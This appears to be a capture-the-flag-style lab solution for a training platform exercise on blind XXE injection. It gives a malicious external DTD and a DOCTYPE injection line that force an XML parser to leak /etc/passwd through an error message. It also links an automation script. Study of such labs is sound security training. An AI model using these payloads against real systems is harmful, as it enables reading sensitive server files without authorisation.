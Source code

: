 # Lab 6: Exploiting blind XXE to retrieve data via error messages
This lab has a "Check stock" feature that parses XML input but does not display the result.

To solve the lab, use an external DTD to trigger an error message that displays the contents of the `/etc/passwd` file.

The lab contains a link to an exploit server on a different domain where you can host your malicious DTD.

## Solution
> Manual Exploitation
1. Click "Go to exploit server" and save the following malicious DTD file on your server:
```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>">
%eval;
%exfil;
```
When imported, this page will read the contents of `/etc/passwd` into the `file` entity, and then try to use that entity in a file path.
2. Click "View exploit" and take a note of the URL for your malicious DTD.
3. You need to exploit the stock checker feature by adding a parameter entity referring to the malicious DTD. First, visit a product page, click "Check stock", and intercept the resulting POST request in Burp Suite.
4. Insert the following external entity definition in between the XML declaration and the stockCheck element:
```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>
```
You should see an error message containing the contents of the `/etc/passwd` file.

> Automating the process
- [Script](https://github.com/darshannn10/PortSwiggers-Web-Sec-Academy/blob/main/XXE%20Injection/lab-06/lab-06-script.py)

## Video Solution
- [Sommer's Video](https://youtu.be/4JFu1JM_VYU)
- [Seven Seas Security's Video](https://youtu.be/nyXjJ915keM)
